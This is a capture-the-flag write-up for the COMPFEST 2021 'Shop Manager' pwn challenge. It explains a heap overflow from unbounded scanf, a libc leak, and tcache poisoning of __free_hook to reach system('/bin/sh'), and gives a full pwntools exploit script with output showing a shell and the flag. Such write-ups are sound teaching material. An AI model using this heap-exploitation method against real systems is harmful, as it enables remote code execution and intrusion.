 ## Shop Manager

> Points: 496
>
> Solves: 6

### Description:
A simple shop simulator

nc 103.152.242.242 39221

Author: prajnapras19

### Attachments:
```
shop-manager-master-public.zip
```

## Analysis:

The menu is as follows, and this binary has `Add`, `Delete`, `Edit`, `List`, `Sell` functions.

```
Menu:
1. Add item
2. Delete item
3. Edit item
4. List of added items
5. Sell item
6. Exit
```
The `Item name` input for the `Add` and `Edit` functions uses `__isoc99_scanf("%s", buf)`. Therefore, it has a heap buffer overflow vulnerability because it does not check the size of the input string.

Below is the compile result of `addItem()` by Ghidra.

```c
void addItem(void)

{
  long lVar1;
  int iVar2;
  void *pvVar3;
  
  iVar2 = idx;
  if (idx == N) {
    puts("Our shop is full.");
  }
  else {
    pvVar3 = malloc(0x10);
    *(void **)(items + (long)iVar2 * 8) = pvVar3;
    lVar1 = *(long *)(items + (long)idx * 8);
    pvVar3 = malloc(0x20);
    *(void **)(lVar1 + 8) = pvVar3;
    printf("Item name: ");
    __isoc99_scanf("%s",*(undefined8 *)(*(long *)(items + (long)idx * 8) + 8));
    printf("Item price: ");
    __isoc99_scanf("%ld",*(undefined8 *)(items + (long)idx * 8));
    idx = idx + 1;
    puts("Item added successfully.");
  }
  return;
}
```

## Solution:

First I considered how to leak the libc address.
I added 16 Items to make a big chunk.
Then change the name of the 0th Item using a heap buffer overflow as follows: Resize the 1st chunk from 0x21 to 0x431.

```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431   Change to 0x21 => 0x431
0x6042c0:	0x0000000000000000	0x00000000006042e0
0x6042d0:	0x0000000000000000	0x0000000000000031
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

I can create a 0x430 size unsorted bin chunk by deleting the 1st Item.
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431
0x6042c0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  The 1st chunk goes into an unsorted bin
0x6042d0:	0x0000000000000000	0x0000000000000000
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

Furthermore, if I execute the `Add` function, I can put the address of the unsorted bin chunk in the 2nd chunk, so you can leak the libc address with the `List` function.
```
    'Name: `G`\n'
    'Price: 140737351834784\n'      =>  0x00007ffff7dcdca0
```

Now that you have chunk overhauled, you can put `__free_hook` into tcache using the `Add`, `Delete` and `Edit` features shown below.
```
# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)
```

The following is the state of tcache after executing the above function.
```
pwndbg> bins
tcachebins
0x20 [100]: 0x604310 —▸ 0x7ffff7dcf8e8 (__free_hook) ◂— 0x0
```

Finally, I write `/bin/sh` to Price of the 14th chunk, I write the address of the `system` function to `__free_hook`, and delete the 14th chunk to start the shell.

```
# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)
```

I didn't use the `Sell` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  libc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

def Exit():
  s.sendlineafter("> ", "6")

for i in range(16):
  Add(chr(0x41+i)*8, 1)

# libc leak
Edit(0, "a"*0x28+p64(0x431), 1)
Delete(1)
Add("b", 2)
List()
for i in range(2):
  s.recvuntil("Price: ")
libc_leak = int(s.recvuntil("\n"))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)

# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 103.152.242.242 on port 39221: Done
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7ff49f953ca0
libc_base = 0x7ff49f568000
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ ls -l
total 2208
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 bin
-r-xr-xr-x  1 0 0   17264 Sep 12 04:33 chall
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 dev
-r--r--r--  1 0 0      56 Sep 12 04:33 flag.txt
-rwxr-xr-x  1 0 0  179152 Sep 12 04:33 ld-2.27.so
drwxr-xr-x 21 0 0    4096 Sep 12 04:33 lib
drwxr-xr-x  3 0 0    4096 Sep 12 04:33 lib32
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 lib64
-rwxr-xr-x  1 0 0 2030928 Sep 12 04:33 libc-2.27.so
-rwxr-xr-x  1 0 0     339 Sep 12 04:33 run.sh
$ cat flag.txt
COMPFEST13{I_us3_st4Ck_p1v0T1ng_How_bouT_Y0u_dd4dfcc265}
```
